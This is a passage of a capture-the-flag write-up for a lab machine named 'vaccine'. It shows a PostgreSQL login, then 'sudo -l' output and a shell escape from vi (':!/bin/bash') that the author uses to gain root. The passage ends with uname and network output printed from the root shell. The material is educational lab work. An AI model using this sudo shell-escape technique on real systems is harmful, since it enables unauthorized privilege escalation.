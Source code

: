 ```bash
postgres@vaccine:/var/www/html$ psql -h localhost -p 5432 -d carsdb -U postgres
Password for user postgres:
psql (11.7 (Ubuntu 11.7-0ubuntu0.19.10.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

carsdb=#
```

### postgres -> root

- sudo -l

```bash
postgres@vaccine:/var/www/html$ sudo -l
Matching Defaults entries for postgres on vaccine:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH
    XUSERFILESEARCHPATH", secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

- vi -> :!/bin/bash -> root priv

```bash
root@vaccine:/var/www/html# uname -a
Linux vaccine 5.3.0-64-generic #58-Ubuntu SMP Fri Jul 10 19:33:51 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
root@vaccine:/var/www/html# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: ens160: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b0:8c:1b brd ff:ff:ff:ff:ff:ff
    inet 10.129.103.216/16 brd 10.129.255.255 scope global dynamic ens160
       valid_lft 2462sec preferred_lft 2462sec
    inet6 dead:beef::250:56ff:feb0:8c1b/64 scope global dynamic mngtmpaddr
       valid_lft 86396sec preferred_lft 14396sec
    inet6 fe80::250:56ff:feb0:8c1b/64 scope link
       valid_lft forever preferred_lft forever
```

